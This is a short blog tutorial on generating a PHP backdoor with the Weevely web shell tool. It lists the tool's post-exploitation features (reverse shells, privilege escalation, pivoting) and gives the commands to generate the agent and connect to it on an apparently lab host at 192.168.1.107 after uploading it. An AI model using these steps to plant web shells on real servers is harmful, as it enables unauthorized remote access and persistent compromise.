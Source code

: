 ```yaml
---
layout: post
title: PHP backdoor with Weevely
---
```


In this tutorial we will create a backdoor by uploading PHP file on the server and gaining a backdoor.

Weevely comes pre-installed on kali-linux.

Some other features of weevely include:

•	Shell access to the target


•	SQL console pivoting on the target


•	HTTP proxy pivoting on the target


•	Upload and download files


•	Spawn reverse and direct TCP shells


•	Audit remote target security


•	Run Meterpreter payloads


•	Port scan pivoting on target


•	Mount the remote filesystem


•	Bruteforce SQL accounts pivoting on the target.



Weevely is a web shell designed for post-exploitation purposes that can be extended over the network at runtime.

Upload weevely PHP agent to a target web server to get remote shell access to it. It has more than 30 modules to assist administrative tasks, maintain access, provide situational awareness, elevate privileges, and spread into the target network.


How to Generate a PHP Backdoor using Weevely?
 
weevely generate <password> <path>

![](/images/2020-1-28-weevely/1.png)

Upload the 405.php to the sever. 


![](/images/2020-1-28-weevely/2.png)


To establish the session: 

weevely http://192.168.1.107/405.php 0xcf

![](/images/2020-1-28-weevely/3.png)


